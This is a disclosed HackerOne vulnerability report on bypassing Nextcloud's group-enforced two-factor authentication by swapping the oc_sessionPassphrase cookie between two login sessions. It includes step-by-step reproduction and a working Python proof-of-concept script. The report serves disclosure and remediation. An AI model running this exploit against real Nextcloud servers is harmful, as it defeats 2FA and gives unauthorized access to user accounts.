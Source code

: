 # Two-factor authentication enforcement bypass

## Report Details
- **Report ID**: 1050244
- **URL**: https://hackerone.com/reports/1050244
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-12-04T01:07:56.574Z
- **Disclosed**: 2021-07-31T14:05:14.810Z

## Reporter
- **Username**: abdullah-a
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
the attacker could bypass the two-factor authentication enforcement

[ Steps to reproduce ]
1. Login with an Administrator account.
2. Click on your administrator profile icon.
3. Users -> Add group -> group name: Enforcement.
4. New User -> Username: Bypass -> Password: NextCloudEnforcement -> Add User in group -> Enforcement.
5. Click on your administrator profile icon.
6. Settings -> Administration label -> Security -> Two-Factor Authentication -> Enforcement of two-factor authentication can be set for certain groups only. Two-factor authentication is enforced for all members of the following groups. -> Add Enforcement group.
7. Save changes.
8. Logout.
9. Login with Username: Bypass and Password: NextCloudEnforcement the response msg is Two-factor authentication is enforced but has not been configured on your account. Contact your admin for assistance.
10. Login with Username: Bypass and Password: NextCloudEnforcement with another session.
11. replace the oc_sessionPassphrase token with the first oc_sessionPassphrase session.
12. then you have bypassed the two factor authentication enforcement.

[Code]
python script just change the domain to your domain and save as bypass.py
```
#!/usr/bin/python3
# python3 -m pip install requests beautifulsoup4
# python3 bypass.py
from requests import Session
from bs4 import BeautifulSoup

class NextCloud(object):
    def __init__(self, baseURL):
        self.session = Session()
        self.baseURL = baseURL

    def login(self, data):
        response = self.session.get(f'{self.baseURL}/login')
        soup = BeautifulSoup(response.text, 'html.parser')
        data.update({
            'requesttoken': soup.find('head')['data-requesttoken']
        })
        self.session.post(f'{self.baseURL}/login', data = data)
    
    def getCookies(self):
        return self.session.cookies.get_dict()

if __name__ == '__main__':
    baseURL = 'http://nextcloud.diefunction.local'
    data = {
        'user': 'bypass',
        'password': 'NextCloudEnforcement'
    }
    firstSession = NextCloud(baseURL)
    secondSession = NextCloud(baseURL)
    firstSession.login(data)
    secondSession.login(data)
    cookies = firstSession.getCookies()
    cookies['oc_sessionPassphrase'] = secondSession.getCookies()['oc_sessionPassphrase']
    print(f'[Cookies] {cookies}') # change your browser cookies to bypass enforcement
```
change the browser cookies to the script output cookies

[ why its worked ]
I tried to understand why it's worked but I didn't found any reason for that
https://github.com/nextcloud/server/blob/1762a409f954fd9a66e7572704ea9ba7813601b4/core/templates/twofactorselectchallenge.php

[Discovered by]
Abdullah Alharbi @Eng_Abdullahx0
Rayan Althobaiti @Diefunction

Note: if this is an eligible bug please provide a CVE.

## Impact

the attacker can gain access to the user dashboard if the user account is enforced with two-factor authentication

## Attachments
- NextCloud_Enforcement_Bypass.mp4
